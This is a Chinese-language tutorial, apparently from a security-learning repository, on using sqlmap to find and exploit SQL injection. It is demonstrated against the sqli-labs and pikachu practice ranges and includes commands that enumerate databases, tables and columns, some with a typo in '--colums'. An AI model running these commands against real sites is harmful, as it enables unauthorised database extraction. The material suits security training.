 <h1>一、Sqlmap是什么</h1>

SQLmap是一款由Python语言编写的开源SQL注入检测与利用工具，它具备强大的自动化功能，能够自动检测和利用Web应用程序中的SQL注入漏洞。它支持多种数据库管理系统，包括MySQL、Oracle、PostgreSQL、Microsoft SQL Server等，并提供了丰富的特性和选项，如指纹识别、数据库枚举、数据提取、文件访问、命令执行等。kali自带该工具，路径为 /usr/share/sqlmap </br>

<h1>二、Sqlmap使用方法</h1>

<h2>1.指定要扫描的目标(GET)</h2>

-u (url)参数，指定需要检测的url，单/双引号包裹。中间如果有提示，就输入y。 </br>
提示：SQLmap不能直接「扫描」网站漏洞，先用其他扫描工具扫出注入点，再用SQLmap验证并「利用」注入点。 </br>
举例：

```
# 注意，这里是适用于get请求的接口扫描
sqlmap -u 'http://192.168.31.180/sqli-labs-master/Less-1/?id=1'
```

扫描结果为

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/4a45baf9-166f-4093-96a8-ebbcdddf2fa3)

<h2>2.多目标扫描(GET)</h2>

准备一个【文本文件】，写上需要检测的多个url，一行一个。 </br>
-m (multi)指定文件，可以「批量扫描」文件中的url。 </br>

逐个扫描url，需要确认就按y。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/98c72d58-1c82-4f72-b7f3-b3e6ac07a174)

扫描完一个，就会提示存在的注入点。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/83babbab-9656-474b-9e79-9a7b5228d6a6)

然后再按y扫描下一个url。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/94f61f22-6a1f-43d9-bbc6-a7e72ef7c187)

<h2>3.指定要扫描的目标(POST)</h2>

检测「post请求」的注入点，使用BP等工具「抓包」，将http请求内容保存到txt文件中。

-r 指定需要检测的文件，SQLmap会通过post请求方式检测目标。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/b1afbdb0-fedb-4f70-8739-54489501217d)

<h2>4.指定要扫描的数据库/表/字段</h2>

-D (Database)指定目标「数据库」，单/双引号包裹，常配合其他参数使用。 </br>

-T (Table)指定目标「表」，单/双引号包裹，常配合其他参数使用。 </br>

-C (Column)指定目标「字段」，单/双引号包裹，常配合其他参数使用。 </br>

一般会与其他参数结合进行使用，逐级进行数据获取，比如：

```
#1.获取所有库名
python sqlmap.py -r post_payload.txt --dbs

#2.进入指定数据库，获取库内所有表名
python sqlmap.py -r post_payload.txt -D pikachu --tables

#3.进入指定数据库的数据表，获取表内所有字段名
python sqlmap.py -r post_payload.txt -D pikachu -T users --colums
```

<h2>5.cookie注入</h2>

--cookie 指定cookie的值，单/双引号包裹。

```
sqlmap -u "http://xx?id=x" --cookie 'cookie'
```

<h1>三、脱库</h1>



<h1>四、实际案例--针对pikachu靶场sql注入漏洞使用sqlmap进行攻击</h2>

抓取存在POST类型请求的具有sql注入漏洞的请求包

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/8bf89090-2d19-4dd1-9dab-1364fbee8e6c)

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/d7a31391-a149-41b7-99a8-c6b0f47f850a)

将请求包存储为文本类型的文件post_payload.txt,并使用以下的命令进行扫描，扫描内容为查看所有数据库(--dbs)

```
 python sqlmap.py -r post_payload.txt --dbs
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/abd9b48c-49e6-487d-8cf5-15088135593b)

